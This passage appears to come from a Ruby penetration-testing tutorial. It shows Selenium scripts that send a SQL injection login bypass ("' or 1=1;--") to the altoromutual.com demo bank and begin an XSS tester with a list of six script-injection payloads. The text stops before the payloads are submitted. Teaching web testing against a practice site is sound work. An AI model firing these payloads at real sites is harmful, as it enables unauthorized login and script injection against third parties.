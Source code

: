 > Note that the actual keys to send depend on your OS, for example, Mac uses `COMMAND + t`, instead of `CONTROL + t`.

### POST Request

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)        # Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit
```

Let's test the page against XSS vulnerability. First I'll list what kind of action we need from browser

1. Open a browser window \(Firefox\)
2. Navigate to a URL \(altoromutual.com\)
3. Perform some operations \(Send an XSS payload\)
4. Check if the payload is working\(Popping-up\) or it's a false positive
5. Print the succeed payloads on terminal

**selenium-xss.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

payloads =
  [
    "<video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox                  # You can use :ff too
browser.manage.window.resize_to(500, 400)                   # Set browser size
browser.get "http://www.altoromutual.com/search.aspx?"

wait = Selenium::WebDriver::Wait.new(:timeout => 10)        # Timeout to wait

```